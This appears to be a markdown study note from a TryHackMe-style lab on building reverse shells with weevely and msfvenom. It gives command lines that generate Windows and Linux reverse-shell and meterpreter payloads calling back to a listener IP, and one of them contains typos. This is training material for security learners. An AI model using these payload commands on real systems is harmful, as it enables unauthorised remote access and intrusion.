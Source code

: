 ## Weevely

You can also create your reverse shell with the tool `weevely`.

## msfvenom

`Msfvenom`: the one-stop-shop for all things payload related.

Part of the Metasploit framework, `msfvenom` is used to generate code for primarily reverse and bind shells. It is used extensively in lower-level exploit development to generate hexadecimal shellcode when developing something like a Buffer Overflow exploit; however, it can also be used to generate payloads in various formats (e.g. `.exe`, `.aspx`, `.war`, `.py`). It's this latter function that we will be making use of in this room. There is more to teach about `msfvenom` than could ever be fit into a single room, let alone a single task, so the following information will be a brief introduction to the concepts that will prove useful for this room.

The standard syntax for `msfvenom` is as follows:

```commandline
msfvenom -p <PAYLOAD> <OPTIONS>
```

For example, to generate a Windows x64 Reverse Shell in an exe format, we could use:

```commandline
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```

![alt text](images/msfvenom_01.png "Screenshot")

Here we are using a payload and four options:

- `-f <format>` - Specifies the output format. In this case that is an executable (exe)
- `-o <file>` - The output location and filename for the generated payload.
- `LHOST=<IP>` - Specifies the IP to connect back to. When using TryHackMe, this will be your tun0 IP address. If you cannot load the link then you are not connected to the VPN.
- `LPORT=<port>` - The port on the local machine to connect back to. This can be anything between 0 and 65535 that isn't already in use; however, ports below 1024 are restricted and require a listener running with root privileges.

List all payloads available:

```commandline
msfvenom --list payloads
```

_This is a huge list, so you probably want to grep on this. For example `msfvenom -l payloads | grep "cmd/unix" | awk '{ print $1 }'`_

For linux on a 64bit for example: 

```commandline
msfvenon -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=10.10.10.5 LPORt=443
```

Another example is by listing and finding the correct payload to our needs to created our custom bind/reverse shell with: `msfvenom -l payloads | grep "cmd/unix" | awk '{ print $1 }'`. Remove the `awk` part if you want a description of the bind/reverse shell.
